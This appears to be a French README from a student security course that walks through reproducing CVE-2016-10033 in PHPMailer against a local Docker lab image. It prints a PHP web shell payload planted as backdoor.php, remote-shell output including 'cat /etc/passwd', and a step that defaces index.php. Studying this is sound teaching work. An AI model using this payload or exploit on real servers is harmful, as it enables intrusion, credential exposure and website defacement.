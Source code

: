 # Ensimag-ssi-2019-2020

## Getting Started
```
$ git clone "https://github.com/elhouti/ensimag-ssi-2019-20.git" && \
cd ensimag-ssi-2019-20
```

## Reproduire la vulnérabilité 

Étape  1: Tout d'abord on va utiliser une image docker qui permet de lancer une application web contenant un formulaire d'envoie de mails avec la librairie PHPMailer avec une version < 5.2.18 (voir index.php) sur un container.
Si jamais vous ne disposez pas de docker sur votre machine (le cas des machines de l'école), [Install Docker on Linux](https://runnable.com/docker/install-docker-on-linux).
```
$ docker run -d -p 8080:80 vulnerables/cve-2016-10033
```
Lorsque l'image soit lancé sur le conteneur docker, visiter localhost:8080

![](index.png)

Étape 2: Lancement du script "exploit.sh", ce dernier injecte le malicious code ``` <?php echo "|".base64_encode(system(base64_decode($_GET["cmd"])))."|"; ?>``` dans le serveur distant (dans notre cas ça sera "localhost:8080", puisque l'application est exécuté sur un container docker locale) sous la forme d'un fichier php que nous avons l'appelé "backdoor.php" en exploitant La faille de PHPMailer qui ne vérifier pas les données envoyées par l'utilisateur à travers le formulaire avant l'exécution, et par conséquent il va nous donner la possibilité d'éxécuter des commandes à distance à travers ce script injecté (Remot shell).

Remarque: au lieu de proceder manuellement avec la saisie directement sur le formulaire, on va utiliser deux scripts qui vont faciliter la tache.
```
$ bash exploit.sh localhost:8080
```
output: (ls, ls vulnerable, pwd, cat /etc/passwd sont exécuté sur le seveur distant)
```
[+] exemple d éxploitation CVE-2016-10033
[+] Lancement de l éxploitation localhost:8080
[+] Cible exploitée, accès au shell sur http://localhost:8080/backdoor.php
[+] Vérification si le fichier backdoor a été creé sur le host ciblé
[+] Backdoor.php trouvé dans le host ciblé
[+] Vous avez la main pour saisir Les commandes à exécuter sur le serveur distant ...
[+] (tappez exit pour sortir du shell)
www-data
RemoteShell> ls
vulnerable
RemoteShell> ls vulnerable
travis.phpunit.xml.dist
RemoteShell> pwd
/www
RemoteShell> cat /etc/passwd
smmsp:x:105:108:Mail
RemoteShell> exit
[+] Sortie
```

Étape3: C'est intéressant, mais pour tester quelque chose de plus concrète, lancant le script "second_use_case.sh" qui exécute une commande sur le shell distant qui permet d'écraser le contenu du ficher "index.php" par une page noire contant le mot "defaced".
```
$ bash concret_example.sh localhost:8080
```
output 
```
[+] exemple d éxploitation CVE-2016-10033
[+] Lancement de l éxploitation localhost:8080
[+] Cible exploitée, accès au shell sur http://localhost:8080/backdoor.php
[+] Vérification si le fichier backdoor a été creé sur le host ciblé
[+] Backdoor.php trouvé dans le host ciblé
[+] Términé avec succès ...
```

résultat

![](ssi.png)

